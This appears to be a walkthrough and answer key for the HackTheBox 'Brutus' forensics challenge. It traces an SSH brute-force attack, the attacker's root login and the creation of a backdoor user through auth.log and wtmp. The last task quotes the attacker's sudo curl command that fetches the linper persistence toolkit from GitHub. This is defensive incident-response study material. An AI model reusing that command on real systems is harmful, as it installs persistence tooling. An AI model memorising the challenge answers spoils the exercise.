# [HackTheBox Sherlocks - Brutus](https://app.hackthebox.com/sherlocks/Brutus/play)
Created: 19/05/2024 13:42
Last Updated: 19/05/2024 14:48
* * *


**Scenario:**
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

* * *
>Task 1: Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?


Lets start by finding those Failed password login in a short span of time which there is only this 1 IP has this pattern which mean its an IP address of the attacker
```
65.2.161.68
```

>Task 2: The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?


Filtered for "Accept password" then look for first Accepted password log after those failed password log then you can see that automated tool successfully identified root's password
```
root
```

>Task 3: Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

Successfully logged in as root from previous task was done by automated tool so we need to go to next successfully login

We need to correlate timestamp here so lets filter our from auth.log using `cat auth.log | grep "Accept"` first then use `utmpdump wtmp | grep "root"` to print historical log of login and logout activity of root user

From the result you can see there is one there
```
2024-03-06 06:32:45
```

>Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?


Session number can be found on auth.log after session opened then we can use `cat auth.log | grep "root"` to get all logs related to root 

You can see that there are 2 sessions were opened by root, first is automated tool that was closed instantly and the second one is what we are looking for
```
37
```

>Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?


We need to find "useradd" log on auth.log
But to make it universal, I used`cat auth.log | grep "add"` to filter out all add event including groupadd too which you can see that the attacker added "cyberjunkie" user then added this user to "sudo" and "shadow" group
```
cyberjunkie
```

>Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence?


It is [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
```
T1136.001
```

>Task 7: How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)


Lets go grab session opened and session closed time of session 37 from auth.log

Use time and date calculator, the different between 06:32:44 and 06:37:24 is 280 but its not the right answer so I checked out wtmp for more details if something is different

So it turns out that it was not logged as 06:32:44 but 06:32:45 (1 second different), then the actual different should be 279 seconds
```
279
```

>Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?


Use `cat auth.log | grep "sudo"` to filter out for "sudo" then we can see that this newly added user used curl to download [linper](https://github.com/montysecurity/linper) (Linux Persistence Toolkit) from github
```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```


* * *
